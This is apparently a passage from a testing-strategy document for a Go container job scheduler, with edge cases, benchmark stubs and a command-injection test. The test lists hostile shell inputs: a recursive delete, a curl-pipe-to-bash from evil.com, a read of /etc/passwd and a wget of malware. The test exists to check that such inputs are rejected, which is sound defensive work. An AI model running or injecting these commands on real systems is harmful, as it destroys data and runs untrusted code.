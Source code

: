 #### Scheduler Edge Cases
- **High Load**: 100+ concurrent jobs, memory pressure
- **Long Running**: Jobs running for hours, cleanup timeouts
- **Dependency Issues**: Circular dependencies, missing dependencies

### 5. Performance Testing Strategy

#### Load Testing Framework
```go
func BenchmarkSchedulerThroughput(b *testing.B) {
    scheduler := core.NewScheduler()
    
    b.ResetTimer()
    for i := 0; i < b.N; i++ {
        job := createBenchmarkJob()
        scheduler.RunJob(job)
    }
}

func BenchmarkContainerCreation(b *testing.B) {
    // Measure container creation/destruction overhead
}

func BenchmarkMemoryUsage(b *testing.B) {
    // Memory allocation patterns under load
}
```

#### Performance Regression Detection
- Baseline performance metrics in CI
- Memory usage tracking over time
- Container operation timing benchmarks
- Alert on >10% performance degradation

### 6. Security Testing Implementation

#### Command Injection Testing
```go
func TestCommandInjectionPrevention(t *testing.T) {
    maliciousInputs := []string{
        "; rm -rf /",
        "$(curl evil.com/script.sh | bash)",
        "`cat /etc/passwd`",
        "&& wget malware.exe",
    }
    
    for _, input := range maliciousInputs {
        job := &core.ComposeJob{
            BareJob: core.BareJob{Command: input},
        }
        
        _, err := job.buildCommand(ctx)
        assert.Error(t, err, "Should reject malicious input: %s", input)
    }
}
```
